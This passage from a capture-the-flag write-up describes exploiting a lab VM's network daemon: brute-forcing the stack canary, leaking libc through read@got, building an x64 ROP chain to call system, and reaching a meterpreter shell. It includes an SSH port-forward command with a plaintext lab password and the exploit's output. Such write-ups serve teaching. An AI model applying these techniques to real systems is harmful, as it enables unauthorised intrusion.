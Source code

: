 As this binary is x64 we can not simply put the arguments for the call to `system` on the stack, instead we need to pass them through registers.

On x64 parameters are passed the following way (a list of system calls on x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)):
```
function_call(%rax) = function(%rdi,  %rsi,  %rdx,  %r10,  %r8,  %r9)
               ^system          ^arg1  ^arg2  ^arg3  ^arg4  ^arg5 ^arg6
                call #
```

The binary itself has only a few ROP gadgets available so I used a few ones from libc as we now have the base address but I tried to mostly use gadgets from the binary itself.

We can now create a rop chain to put the desired values in the registers, call system and watch our command be executed. I decided to call another read from the socket and put my command into the `.dynamic` section of the binary in memory and then call system with this address.

To test the exploit locally we need to adjust the offsets as the libc version differs with the one from the VM. Also the networking code of the binary is really crappy as it never releases a socket resulting in `too many open files` error messages when running against the VM. In that case a simple VM reset helps :) But the case that we have to bruteforce the canary on each run and the crappy socket handling makes debugging this binary a pain in the ass - thanks [@superkojiman](https://twitter.com/superkojiman) :D

We can expose the local port on our machine by using a SSH port forward and executing the script again - this should get us a shell:
```
sshpass -p tr3each3ry_anD_cUnn1ng ssh -L 7979:localhost:7979 bob@192.168.56.2
```

Final output of the exploit:
```
root@kali:~/baffle# ./ctfingerd.py
[+] Found part 1/8 of stack canary: 0x0
[+] Found part 2/8 of stack canary: 0x19
[+] Found part 3/8 of stack canary: 0xfb
[+] Found part 4/8 of stack canary: 0x13
[+] Found part 5/8 of stack canary: 0x6b
[+] Found part 6/8 of stack canary: 0xc8
[+] Found part 7/8 of stack canary: 0x35
[+] Found part 8/8 of stack canary: 0x96
[+] Stack Canary is \x00\x19\xfb\x13\x6b\xc8\x35\x96
[*] read@got: 0x6014f8
[*] leak fd: 817
[*] Sending leak payload ...
[*] leaked read address: 0x7f4379fa1b90
[*] libc base: 0x7f4379ec6000
[*] system: 0x7f4379f07490
[*] fd: 818
[*] Paused (press any to continue)
```

```
meterpreter > sysinfo
Computer     : 192.168.56.2
OS           : Debian 8.6 (Linux 3.16.0-4-amd64)
Architecture : x64
Meterpreter  : x86/linux

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
```
